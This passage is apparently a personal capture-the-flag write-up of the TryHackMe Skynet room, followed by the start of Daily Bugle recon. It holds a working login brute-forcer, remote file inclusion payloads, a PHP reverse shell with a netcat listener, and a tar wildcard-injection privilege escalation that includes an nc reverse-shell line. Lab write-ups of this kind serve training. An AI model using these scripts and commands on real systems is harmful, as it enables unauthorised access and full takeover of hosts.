===============================( Getting printer info for 10.10.163.233 )===============================
Cannot connect to server.  Error was NT_STATUS_NOT_FOUND
enum4linux complete on Tue May  9 09:25:07 2023
```

smb has an anonymous user try connecting and see what's inside

```
# install smb
sudo apt install smbclient

root@ip-10-10-193-224:~/repo# smbclient '\\10.10.213.134\anonymous'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Thu Nov 26 16:04:00 2020
..                                  D        0  Tue Sep 17 08:20:17 2019
attention.txt                       N      163  Wed Sep 18 04:04:59 2019
logs                                D        0  Wed Sep 18 05:42:16 2019

    9204224 blocks of size 1024. 5831512 blocks available
    smb: \> get attention.txt
    getting file \attention.txt of size 163 as attention.txt (79.6 KiloBytes/sec) (average 79.6 KiloBytes/sec)
smb: \>

smb: \> cd logs
smb: \logs\> ls
.                                   D        0  Wed Sep 18 05:42:16 2019
..                                  D        0  Thu Nov 26 16:04:00 2020
log2.txt                            N        0  Wed Sep 18 05:42:13 2019
log1.txt                            N      471  Wed Sep 18 05:41:59 2019
log3.txt                            N        0  Wed Sep 18 05:42:16 2019

9204224 blocks of size 1024. 5831512 blocks available
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (153.3 KiloBytes/sec) (average 123.8 KiloBytes/sec)
```
attention.txt and log1.txt are the only files with contents so we get them and inspect

Now we check the contents
```bash
  root@ip-10-10-193-224:~/repo# cat attention.txt
  A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
  -Miles Dyson
  root@ip-10-10-193-224:~/repo# cat log1.txt
  cyborg007haloterminator
  terminator22596
  terminator219
  terminator20
  terminator1989
  terminator1988
  terminator168
  terminator16
  terminator143
  terminator13
  terminator123!@#
  terminator1056
  terminator101
  terminator10
  terminator02
  terminator00
  roboterminator
  pongterminator
  manasturcaluterminator
  exterminator95
  exterminator200
  dterminator
  djxterminator
  dexterminator
  determinator
  cyborg007haloterminator
  avsterminator
  alonsoterminator
  Walterminator
  79terminator6
  1996terminator
```

attention.txt says there's a user called Miles Dyson
log1.txt looks like it's a password list.

going back to $rhost/squirrelmail ( we got from gobuster)



inspect element copy the curl command 

then convert it to python in this website : `https://curlconverter.com/`

We're going to create a python bruteforcer script and use the log1.txt as password list
```python
import requests

cookies = {
    'SQMSESSID': 'k1rnob8hng9s8q5457ns89b7j4',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    # 'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://10.10.213.134',
    'Connection': 'keep-alive',
    'Referer': 'http://10.10.213.134/squirrelmail/src/login.php',
    # 'Cookie': 'SQMSESSID=k1rnob8hng9s8q5457ns89b7j4',
    'Upgrade-Insecure-Requests': '1',
}

username = 'milesdyson'
passwords = [x.strip() for x in open('log1.txt').read().split('\n') if x ]


for password in passwords:
  data = {
      'login_username': username,
      'secretkey': password,
      'js_autodetect_results': '1',
      'just_logged_in': '1',
  }

  response = requests.post('http://10.10.213.134/squirrelmail/src/redirect.php', cookies=cookies, headers=headers, data=data)
  if "Unknown user or password incorrect." not in response.text:
    print(f"[+] Potential Password:    {password}")
```

now let's use this shitty code


now let's try



in the first email this was the content
```

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```
other mail 1
```
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

other mail 2
```
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```
now let's try to connect in smbclient using the password from squirrelmail 
```
)s{A&2Z=F^n_E.B`
```

```

root@ip-10-10-193-224:~/repo# smbclient -U milesdyson '\\10.10.213.134\mile
sdyson'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\milesdyson's password:
Try "help" to get a list of possible commands.
smb: \>

smb: \> ls
.                                   D        0  Tue Sep 17 10:05:47 2019
..                                  D        0  Wed Sep 18 04:51:03 2019
Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 10:05:14 2019
Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 10:05:14 2019
Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 10:05:14 2019
notes                               D        0  Tue Sep 17 10:18:40 2019
Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 10:05:14 2019
Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 10:05:14 2019

9204224 blocks of size 1024. 5831384 blocks available
smb: \>


smb: \> cd notes\
smb: \notes\> ls
.                                   D        0  Tue Sep 17 10:18:40 2019
..                                  D        0  Tue Sep 17 10:05:47 2019
3.01 Search.md                      N    65601  Tue Sep 17 10:01:29 2019
4.01 Agent-Based Models.md          N     5683  Tue Sep 17 10:01:29 2019
2.08 In Practice.md                 N     7949  Tue Sep 17 10:01:29 2019
0.00 Cover.md                       N     3114  Tue Sep 17 10:01:29 2019
1.02 Linear Algebra.md              N    70314  Tue Sep 17 10:01:29 2019
important.txt                       N      117  Tue Sep 17 10:18:39 2019
6.01 pandas.md                      N     9221  Tue Sep 17 10:01:29 2019
3.00 Artificial Intelligence.md      N       33  Tue Sep 17 10:01:29 2019
2.01 Overview.md                    N     1165  Tue Sep 17 10:01:29 2019
3.02 Planning.md                    N    71657  Tue Sep 17 10:01:29 2019
1.04 Probability.md                 N    62712  Tue Sep 17 10:01:29 2019
2.06 Natural Language Processing.md      N    82633  Tue Sep 17 10:01:29 2019
2.00 Machine Learning.md            N       26  Tue Sep 17 10:01:29 2019
1.03 Calculus.md                    N    40779  Tue Sep 17 10:01:29 2019
3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 10:01:29 2019
1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 10:01:29 2019
1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 10:01:29 2019
6.00 Appendices.md                  N       20  Tue Sep 17 10:01:29 2019
1.01 Functions.md                   N     7627  Tue Sep 17 10:01:29 2019
2.03 Neural Nets.md                 N   144726  Tue Sep 17 10:01:29 2019
2.04 Model Selection.md             N    33383  Tue Sep 17 10:01:29 2019
2.02 Supervised Learning.md         N    94287  Tue Sep 17 10:01:29 2019
4.00 Simulation.md                  N       20  Tue Sep 17 10:01:29 2019
3.05 In Practice.md                 N     1123  Tue Sep 17 10:01:29 2019
1.07 Graphs.md                      N     5110  Tue Sep 17 10:01:29 2019
2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 10:01:29 2019
2.05 Bayesian Learning.md           N    39443  Tue Sep 17 10:01:29 2019
5.03 Anonymization.md               N     2516  Tue Sep 17 10:01:29 2019
5.01 Process.md                     N     5788  Tue Sep 17 10:01:29 2019
1.09 Optimization.md                N    25823  Tue Sep 17 10:01:29 2019
1.05 Statistics.md                  N    64291  Tue Sep 17 10:01:29 2019
5.02 Visualization.md               N      940  Tue Sep 17 10:01:29 2019
5.00 In Practice.md                 N       21  Tue Sep 17 10:01:29 2019
4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 10:01:29 2019
1.10 Algorithms.md                  N    28790  Tue Sep 17 10:01:29 2019
3.04 Filtering.md                   N    13360  Tue Sep 17 10:01:29 2019
1.00 Foundations.md                 N       22  Tue Sep 17 10:01:29 2019

9204224 blocks of size 1024. 5831384 blocks available

smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (22.9 KiloBytes/sec) (average 22.9 KiloBytes/sec)
```
Let's check the important.txt file
```
root@ip-10-10-193-224:~/repo# cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

now let's try to enter in firefox `$rhost/45kra24zxs28v3yd`


the page reveals nothing let's try to go buster it again
```
gobuster dir -u http://$rhost/45kra24zxs28v3yd -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.213.134/45kra24zxs28v3yd
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2023/05/10 07:40:09 Starting gobuster
  ===============================================================
  /administrator (Status: 301)
  ===============================================================
  2023/05/10 07:40:28 Finished
  ===============================================================


root@ip-10-10-193-224:~/repo# searchsploit cuppa
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

---------------------------------------- ---------------------------------
Exploit Title                          |  Path
---------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Loc | php/webapps/25971.txt
---------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-193-224:~/repo# searchsploit -m php/webapps/25971.txt
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
URL: https://www.exploit-db.com/exploits/25971
Path: /opt/searchsploit/exploits/php/webapps/25971.txt
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/repo/25971.txt
```

Exploit say's it vulnerable for Local/Remote File Inclusion
```bash
# POC
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

let's try in our shell
```bash
curl http://10.10.213.134/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

#response
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```

now we have tested that it's vulnerable let's try to check if it will execute a php script from our machine

```bash
# create a webserver
python -m http.server 8080
# Create new terminal 
vi poc.php
```
poc.php
```php
<?php
system('whoami;pwd;ls -latr')
?>
```

here's the base url for LFI
`http://10.10.213.134/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=`


now let's curl the motherfucker
```bash
curl http://10.10.213.134/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.193.22/poc.php
<script>
function CloseDefaultAlert(){
SetAlert(false, "", "#alert");
setTimeout(function () {SetBlockade(false)}, 200);
}
function ShowAlert(){
_width = '';
_height = '';
jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
function CompleteAnimation(){
jQuery("#btnClose_alert").css('visibility', "visible");
jQuery("#description_alert").css('visibility', "visible");
jQuery("#content_alert").css('visibility', "visible");
}
}
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
<div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
<div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
<div class="separator" style="margin-bottom:15px;"></div>
<div id="content_alert" class="content_alert">
www-data
/var/www/html/45kra24zxs28v3yd/administrator/alerts
total 24
-rw-r--r-- 1 www-data www-data 1819 Mar  3  2011 alertImage.php
-rw-r--r-- 1 www-data www-data 1343 Jul 11  2011 defaultAlert.php
-rw-r--r-- 1 www-data www-data 1212 Oct  3  2011 alertConfigField.php
-rw-r--r-- 1 www-data www-data 1269 Nov  1  2011 alertIFrame.php
drwxr-xr-x 2 www-data www-data 4096 Nov  1  2011 .
drwxr-xr-x 8 www-data www-data 4096 Sep 17  2019 ..
</div>
```

POC Works! now let's use pentest monkey php reverse shell: 
`https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php`

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

change the IP and PORT to you machine 

then have a nc listener
```
nc -lnvp 4444
```

curl the motherfucker again
```
root@ip-10-10-193-224:~/repo# curl http://10.10.213.134/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.193.224:8080/php-reverse-shell.php
```

then check your listener
```
root@ip-10-10-193-224:~/repo# nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.213.134 49956 received!
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
02:18:21 up  3:16,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$python -c 'import pty; pty.spawn("/bin/bash")'

www-data@skynet:/$ cd /home/
www-data@skynet:/home$ ls
milesdyson
www-data@skynet:/home$ cd milesdyson/
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
www-data@skynet:/home/milesdyson$
```

### Privilege Escalation 

once inside let's download linpeas in `/opt/PEAS` dir

LinPeas is very good as it gives you Color Coded Legend in where to look


This looks Interesting, as this has cronjob that runs every minute as root


```

www-data@skynet:/home/milesdyson/backups$ pwd ; ls -latr
/home/milesdyson/backups
total 4584
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
-rw-r--r-- 1 root       root       4679680 May 10 02:42 backup.tgz
www-data@skynet:/home/milesdyson/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/home/milesdyson/backups$
```

backup.sh is vulnerable in wildcard injection privilege escalation
this line `tar cf /home/milesdyson/backups/backup.tgz *`
> you can check more in here: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

we can use this example, from the reference above
this file create reverse shell connection
```bash
echo "mkfifo /tmp/lhennp; nc 192.168.1.1 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

but we'll try to modify this and use root bin/bash setuid to escalate our privilege
let's check 
```

www-data@skynet:/var/www/html$ ls -altr /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

```bash
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh # this will create the shell script
echo "" > "--checkpoint-action=exec=sh shell.sh" # will execute the shell script
echo "" > --checkpoint=1 #will be triggered by the tar command
```
this will escalate our privilege to root when use `/bin/bash -p`

First let's check if the files are created
```

www-data@skynet:/var/www/html$ ls -altr
total 80
drwxr-xr-x 3 root     root      4096 Sep 17  2019 ..
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 8 www-data www-data  4096 May 10 03:03 .
-rw-rw-rw- 1 www-data www-data    30 May 10 03:04 shell.sh
-rw-rw-rw- 1 www-data www-data     1 May 10 03:04 --checkpoint-action=exec=sh shell.sh
-rw-rw-rw- 1 www-data www-data     1 May 10 03:04 --checkpoint=1
www-data@skynet:/var/www/html$ date
Wed May 10 03:04:30 CDT 2023

www-data@skynet:/var/www/html$ date
Wed May 10 03:04:56 CDT 2023
```
Ok the has been created, now let's check the bin/bash  binary and escalate

```bash
www-data@skynet:/var/www/html$ ls -latr /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
www-data@skynet:/var/www/html$ /bin/bash -p
bash-4.3 whoami
root # BEST FEELING 
bash-4.3 id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3 cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

## Daily Bugle
> https://tryhackme.com/room/dailybugle#
> Difficulty: Hard
rhost=victim ip
lhost=myip

### Recon
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
MAC Address: 02:A3:DE:61:C1:39 (Unknown)
```

<!-- nmap --script vuln -p 22,80,3306 $rhost -->
nmap -sV -T4 --script vuln --min-rate 8888 $rhost -vv -d -oN nmap-vuln.txt
```
nmap -sV -T4 --script vuln --min-rate 8888 -vv -d -oN nmap-vuln.txt 10.10.205.160
--------------- Timing report ---------------
  hostgroups: min 1, max 100000
  rtt-timeouts: init 500, min 100, max 1250
  max-scan-delay: TCP 10, UDP 1000, SCTP 10
  parallelism: min 0, max 0
  max-retries: 6, host-timeout: 0
  min-rate: 8888, max-rate: 0
---------------------------------------------
Packet capture filter (device ens5): arp and arp[18:4] = 0x02FCF482 and arp[22:2] = 0xB8A7
Packet capture filter (device ens5): dst host 10.10.129.213 and (icmp or icmp6 or ((tcp or udp or sctp) and (src host 10.10.205.160)))
Increasing send delay for 10.10.205.160 from 0 to 5 due to 667 out of 1667 dropped probes since last increase.
Nmap scan report for ip-10-10-205-160.eu-west-1.compute.internal (10.10.205.160)
Host is up, received arp-response (0.00079s latency).
Scanned at 2023-05-17 12:41:05 BST for 38s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-205-160.eu-west-1.compute.internal
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal:80/
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: user-registration
|     Form action: /index.php/component/users/?task=remind.remind&Itemid=101
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/component/users/?view=remind&amp;Itemid=101
|     Form id: login-form
|     Form action: /index.php/component/users/?Itemid=101
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/#top
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/2-uncategorised/1-spider-man-robs-bank
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/
|     Form id: login-form
|     Form action: /index.php
|     
|     Path: http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/2-uncategorised
|     Form id: login-form
|_    Form action: /index.php
| http-dombased-xss: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-205-160.eu-west-1.compute.internal
|   Found the following indications of potential DOM based XSS: 
|     
|     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
|_    Pages: http://ip-10-10-205-160.eu-west-1.compute.internal:80/, http://ip-10-10-205-160.eu-west-1.compute.internal/#top, http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/2-uncategorised/1-spider-man-robs-bank, http://ip-10-10-205-160.eu-west-1.compute.internal/, http://ip-10-10-205-160.eu-west-1.compute.internal/index.php/2-uncategorised
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /robots.txt: Robots file
|   /language/en-GB/en-GB.xml: Joomla! 
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
| http-iis-webdav-vuln: 
|_  ERROR: This web server is not supported.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-trace: TRACE is enabled
| Headers:
| Date: Wed, 17 May 2023 11:41:12 GMT
| Server: Apache/2.4.6 (CentOS) PHP/5.6.40
| Connection: close
| Transfer-Encoding: chunked
|_Content-Type: message/http
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|       
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
MAC Address: 02:A3:DE:61:C1:39 (Unknown)
```


gobuster
```
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.205.160
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.205.160/images/]
/templates            (Status: 301) [Size: 239] [--> http://10.10.205.160/templates/]
/media                (Status: 301) [Size: 235] [--> http://10.10.205.160/media/]
/modules              (Status: 301) [Size: 237] [--> http://10.10.205.160/modules/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.205.160/bin/]
/plugins              (Status: 301) [Size: 237] [--> http://10.10.205.160/plugins/]
/includes             (Status: 301) [Size: 238] [--> http://10.10.205.160/includes/]
/language             (Status: 301) [Size: 238] [--> http://10.10.205.160/language/]
/components           (Status: 301) [Size: 240] [--> http://10.10.205.160/components/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.205.160/cache/]
/libraries            (Status: 301) [Size: 239] [--> http://10.10.205.160/libraries/]
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.205.160/tmp/]
/layouts              (Status: 301) [Size: 237] [--> http://10.10.205.160/layouts/]
/administrator        (Status: 301) [Size: 243] [--> http://10.10.205.160/administrator/]
/cli                  (Status: 301) [Size: 233] [--> http://10.10.205.160/cli/]

[+] Url:            http://10.10.205.160/administrator
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
/help (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/logs (Status: 301)
===============================================================
```

Important Stuff
```
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
